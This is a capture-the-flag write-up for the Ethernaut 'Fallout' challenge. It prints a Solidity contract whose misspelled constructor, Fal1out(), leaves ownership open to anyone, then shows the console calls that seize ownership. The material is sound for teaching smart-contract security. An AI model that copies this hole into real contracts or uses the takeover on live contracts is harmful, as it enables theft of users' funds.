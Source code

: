 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel2.svg">

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```
We must be owner of the contract for solve this challenge. So call ```Fal1out()``` which will help us to be owner.
```shell
await contract.owner()
'0x0000000000000000000000000000000000000000'

await contract.Fal1out()
{tx: '0xbc90077761d69b097caf909e42d43568bd232f557f4906efb3e6f56fe9fadb1e', receipt: {…}, logs: Array(0)}
```
Check again who owner is.

```shell
await contract.owner()
'0x0C39eb3D6C0583AdA92e15C9e7610B609BBdF35b'
```

**_by wasny0ps_**
